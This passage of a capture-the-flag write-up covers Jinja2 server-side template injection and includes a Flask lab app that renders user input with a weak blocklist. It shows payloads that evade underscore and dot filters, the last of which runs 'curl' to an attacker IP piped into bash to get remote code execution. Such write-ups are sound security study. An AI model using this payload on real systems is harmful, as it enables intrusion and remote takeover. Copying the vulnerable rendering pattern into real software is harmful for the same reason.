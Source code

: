 [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)

{% raw %}

After some fuzzing we determine that application doesn't like `__` in the parameter
```bash
Crash: {{ cycler.__init__.__globals__.os.popen('id').read() }}
Good: {{cycler}}
Crash: {{cycler.__init__}}
Crash: {{cycler|attr('__init__')}}
Good: {{cycler|attr('_''_init_''_')}}
```

{% end_raw %}

![Writeup-11.png](/assets/images/Machines/IClean/Writeup-11.png)

Test script: [src](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#lab)
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if c := request.args.get('c'):
        try:
            if '__' in c or '.' in c: return 'NEEEEEE'
            else: return render_template_string(c)
        except Exception as e: return str(e)
    else: return "Hello, send someting inside the param 'c'!"

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

`.` was also blocked, which made the injection a bit harder

{% raw %}

```python
{{cycler|attr('_''_init_''_')|attr('_''_globals_''_')|attr('_''_getitem_''_')('_''_builtins_''_')|attr('_''_getitem_''_')('_''_import_''_')('os')|attr('popen')("curl+10.10.14.37/rev|bash")}}
```

{% endraw %}
